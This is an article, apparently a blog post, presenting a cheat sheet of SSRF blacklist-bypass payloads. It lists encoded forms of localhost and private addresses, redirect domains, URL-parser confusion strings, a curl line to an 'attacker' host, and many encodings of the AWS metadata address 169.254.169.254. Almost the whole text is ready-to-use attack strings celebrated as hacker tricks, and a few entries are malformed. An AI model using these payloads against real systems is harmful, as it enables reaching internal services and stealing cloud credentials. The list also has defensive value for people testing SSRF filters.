 # Unlocking Forbidden Territories: Mastering Blacklist Bypass Techniques

In the intricate realm of cybersecurity, blacklists are formidable guardians, typically designed to block access to specific IP addresses. However, for those with a penchant for exploration and a touch of ingenuity, there exist methods to defy these digital barriers. Let's delve into the art of bypassing blacklists, armed with a repertoire of cunning techniques.

### **Bypassing IP Address Blacklists: An Ingenious Game**

The most prevalent blacklists target IP addresses like the notorious 127.0.0.1 or the seemingly impervious localhost. To outsmart these guardians, astute hackers employ a variety of tricks:

1. **IPv6 Evasion**: Harness the power of IPv6 with addresses like:
   * `http://[::]/`
   * `http://[::]:80/`
   * `http://0000::1/`
   * `http://0000::1:80/`
2. **Domain Redirection**: When all IP addresses are barred, redirection is your ally. Explore domains like:
   * `http://localtest.me`
   * `http://test.app.127.0.0.1.nip.io`
   * `http://test-app-127-0-0-1.nip.io`
   * `httP://test.app.127.0.0.1.xip.io`
3. **CIDR Subnet Magic**: When only 127.0.0.1 is grudgingly permitted, turn to CIDR:
   * `http://127.127.127.127/`
   * `http://127.0.1.3/`
   * `https:/127.0.0.0/`
4. **IPv6/IPv4 Address Fusion**: When both IPv4 and IPv6 are unwelcome guests, disguise with:
   * `http://[0:0:0:0:0:ffff:127.0.0.1]/`
5. **Decimal IP Wizardry**: When dots are barred, play with decimal delights:
   * `http://0177.0.0.1/` → (127.0.0.1)
   * `http://2130706433/` → (127.0.0.1)
   * `http://3232235521/` → (192.168.0.1)
   * `http://3232235777/` → (192.168.1.1)
6. **Malformed URL Tricks**: When ports are locked, go for:
   * `localhost:+11211aaa`
   * `localhost:00011211aaaa`
   * `localhost:11211`
7. **IP Address Shortcuts**: When the full IP address is white-listed, condense to:
   * `http://0/`
   * `http://127.1/`
   * `http://127.0.1/`
8. **Enclosed Alphanumerics**: Exploit server interpretations with:
   * `http://①②⑦.⓪.⓪.①/`
   * `http://⓵⓶⓻.⓪.⓪.⓵/`
9. **Bash Variable Intrigue (cURL Only)**:
   * `curl -v "http://attacker$google.com"; $google = ""`
10. **Against Weak Parsers**: Confound weak parsers with:
    * `http://127.1.1.1:80\@127.2.2.2:80/`
    * `http://127.1.1.1:80\@@127.2.2.2:80/`
    * `http://127.1.1.1:80:\@@127.2.2.2:80/`
    * `http://127.1.1.1:80#\@127.2.2.2:80/`

### **Cracking the AWS Code: Bypassing 169.254.169.254**

In the realm of Amazon Web Services (AWS), the 169.254.169.254 address stands as a formidable sentinel. However, the ingenious find ways to slip past its defenses:

1. **Subdomain Evasion**: Crafty subdomains like:
   * `http://169.254.169.254.xip.io/`
   * `http://1ynrnhl.xip.io`
2. **Decimal Magic**: Delve into decimal sorcery:
   * `http://425.510.425.510` – Dotted Decimal with Overflow
   * `http://2852039166` – Dotless Decimal
   * `http://7147006462` – Dotless Decimal with Overflow
3. **Hexadecimal Enigma**: Embrace the hexadecimal:
   * `http://0xA9.0xFE.0xA9.0xFE` – Dotted Hexadecimal
   * `http://0xA9FEA9FE` – Dotless Hexadecimal
   * `http://0x41414141A9FEA9FE` – Dotless Hexadecimal with Overflow
4. **Octal Escapade**: Traverse the octal landscape:
   * `http://0251.0376.0251.0376` – Dotted Octal
   * `http://0251.00376.000251.0000376` – Dotted Octal with Padding

These ingenious techniques, while a testament to human creativity, also underline the importance of vigilant security measures to safeguard against unauthorized access and potential threats.
